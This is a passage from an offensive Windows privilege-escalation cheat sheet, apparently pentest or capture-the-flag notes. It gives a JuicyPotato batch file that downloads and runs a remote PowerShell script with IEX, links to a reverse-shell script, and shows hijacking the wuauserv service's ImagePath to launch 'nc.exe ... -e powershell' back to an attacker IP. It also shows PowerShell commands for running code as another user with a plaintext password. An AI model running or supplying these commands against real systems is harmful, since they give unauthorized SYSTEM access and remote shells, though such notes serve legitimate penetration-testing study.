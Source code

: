 ```bat
;= rem rev.bat

cmd /c powershell -NoP IEX (New-Object Net.WebClient).DownloadString('http://127.0.0.1/[4]')
```

1. [github.com/ohpe/juicy-potato](https://github.com/ohpe/juicy-potato)
2. [ohpe.it/juicy-potato/CLSID](https://ohpe.it/juicy-potato/CLSID)
3. [github.com/ohpe/juicy-potato/releases/download/v0.1/JuicyPotato.exe](https://github.com/ohpe/juicy-potato/releases/download/v0.1/JuicyPotato.exe)
4. [github.com/samratashok/nishang/blob/master/Shells/Invoke-PowerShellTcp.ps1](https://github.com/samratashok/nishang/blob/master/Shells/Invoke-PowerShellTcp.ps1)


#### decoder/the-lonely-potato

* [decoder.cloud/2017/12/23/the-lonely-potato/](https://decoder.cloud/2017/12/23/the-lonely-potato/)



### wuauserv

```
PS > Get-Acl HKLM:\SYSTEM\CurrentControlSet\services\* | format-list * | findstr /i "j1v37u2k3y Users Path ChildName"
PS > Get-ItemProperty HKLM:\System\CurrentControlSet\services\wuauserv
PS > reg add "HKLM\System\CurrentControlSet\services\wuauserv" /t REG_EXPAND_SZ /v ImagePath /d "C:\Windows\System32\spool\drivers\color\nc.exe 10.10.14.16 1337 -e powershell" /f
PS > Start-Service wuauserv
...get reverse shell...
PS > Get-Service wuauserv
PS > Stop-Service wuauserv
```



### Run as Another User


#### PowerShell

```
PS > $cred = New-Object System.Management.Automation.PSCredential('<HOSTNAME>\<USERNAME>', $(ConvertTo-SecureString 'Passw0rd!' -AsPlainText -Force))
```

Invoke-Command with `-Credential`:

```
PS > Invoke-Command -ComputerName <HOSTNAME> -ScriptBlock { whoami } -Credential $cred
```

Invoke-Command with `-Session`:

```
PS > $s = New-PSSession -ComputerName <HOSTNAME> -Credential $cred
PS > Invoke-Command -ScriptBlock { whoami } -Session $s
```

